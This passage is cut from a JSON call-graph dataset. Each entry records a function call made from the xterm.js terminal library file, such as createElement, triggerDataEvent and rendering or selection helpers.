"static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleAnyTextareaChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCompositionElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCompositionElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleOptionsChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_injectCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDefaultSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_injectCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "multiplyOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "calc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "multiplyOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "opaque"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "multiplyOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDefaultSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleDevicePixelRatioChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDefaultSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCharSizeChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDefaultSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createDocumentFragment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createSelectionElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCursorMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleOptionsChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_injectCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDefaultSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_terminalSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleLinkHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCellUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleLinkLeave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCellUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCellUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getJoinedCharacters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNoBgTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isCellInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEachDecorationAtCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isOverline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isItalic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isInvisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isItalic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isDim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isInvisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderlineColorDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getUnderlineColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isOverline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isStrikethrough"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBgColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isInverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "multiplyOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyMinimumContrast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyMinimumContrast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyMinimumContrast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyMinimumContrast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getContrastCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isDim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ensureContrastRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getContrastCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isDim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isCellInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCellSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "finalSelectionStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "areSelectionValuesReversed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "finalSelectionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "areSelectionValuesReversed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTrim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasValidSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_validateAndSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": 